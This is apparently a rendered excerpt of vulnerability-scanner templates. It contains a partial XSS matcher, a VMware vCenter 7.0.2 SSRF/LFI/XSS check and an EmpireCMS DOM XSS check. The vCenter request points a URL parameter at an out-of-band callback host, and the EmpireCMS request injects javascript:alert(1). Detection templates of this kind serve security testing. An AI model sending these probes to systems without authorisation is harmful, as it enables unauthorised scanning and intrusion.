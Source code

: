 **Type - word**
- part - body
- words
    1. {{randstr}}
    2. \<form action="javascript:alert
- condition - and

**Type - status**
- status
    1. 200

**Type - word**
- part - header
- words
    1. text/html

---
# VMware vCenter - Server-Side Request Forgery/Local File Inclusion/Cross-Site Scripting
## Description
- VMware vCenter 7.0.2.00100 is susceptible to multiple vulnerabilities including server-side request forgery, local file inclusion, and cross-site scripting.
- severity - critical
- tags - ssrf,lfi,xss,oast,vcenter,vmware
## Requests
- Method - GET
### URL
- {{BaseURL}}/ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url=https://{{interactsh-url}}
### Matchers

**Type - word**
- part - interactsh_protocol
- words
    1. http

**Type - status**
- status
    1. 200

---
# EmpireCMS DOM Cross Site-Scripting
## Description
- EmpireCMS is vulnerable to a DOM based cross-site scripting attack.
- severity - high
- tags - empirecms,cnvd,cnvd2021,xss,domxss
## Requests
- Method - GET
### URL
- {{BaseURL}}/e/ViewImg/index.html?url=javascript:alert(1)
### Matchers
